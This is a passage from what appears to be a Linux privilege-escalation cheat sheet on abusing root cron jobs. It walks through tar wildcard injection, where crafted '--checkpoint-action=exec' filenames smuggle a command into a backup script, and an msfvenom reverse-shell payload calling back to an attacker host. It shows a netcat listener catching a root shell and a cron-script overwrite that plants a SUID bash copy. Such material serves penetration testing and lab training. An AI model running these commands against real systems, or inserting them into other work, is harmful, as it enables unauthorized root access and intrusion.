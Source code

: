 [GTFOBins](https://gtfobins.github.io) can assist us in determining whether a command contains any relevant command-line parameters for our needs.

#### Wildcards Privilege Escalation

Read the contents of the system-wide crontab:

```
$ cat /etc/crontab
...
* * * * * root /usr/local/bin/script.sh
```

Read the contents of the `/usr/local/bin/script.sh` file:

```bash
$ cat /usr/local/bin/script.sh
#!/bin/sh
cd /home/user
tar czf /tmp/backup.tar.gz *
```

> Note that the tar command is run with a wildcard in the /home/user directory.

Visit [GTFOBins](https://gtfobins.github.io) and see what you can do with tar wildcards.

Use msfvenom to create a reverse shell ELF payload or manually create file with a reverse shell code:

```
$ msfvenom -p linux/x64/shell_reverse_tcp LHOST=<YOUR_IP> LPORT=443 -f elf -o shell.elf
```

Copy the file to the `/home/user` directory on the remote host and create two files in the `/home/user` directory:

```
$ touch /home/user/--checkpoint=1
$ touch /home/user/--checkpoint-action=exec=shell.elf
```

Set up a listener to receive a shell when the cron executes the script:

```
# nc -nvlp 443
listening on [any] 443 ...
connect to [192.168.10.10] from (UNKNOWN) [192.168.10.11] 47556
bash: no job control in this shell
root@debian:~# id
id
uid=0(root) gid=0(root) groups=0(root)
```

### Cron Script Overwrite

If you have **permission to modify a cron script executed by root**, then you can elevate privileges easily:

```bash
echo 'cp /bin/bash /tmp/rootbash; chmod +s /tmp/rootbash' > /path/to/cron/script
# Wait until it executes
/tmp/rootbash -p
```
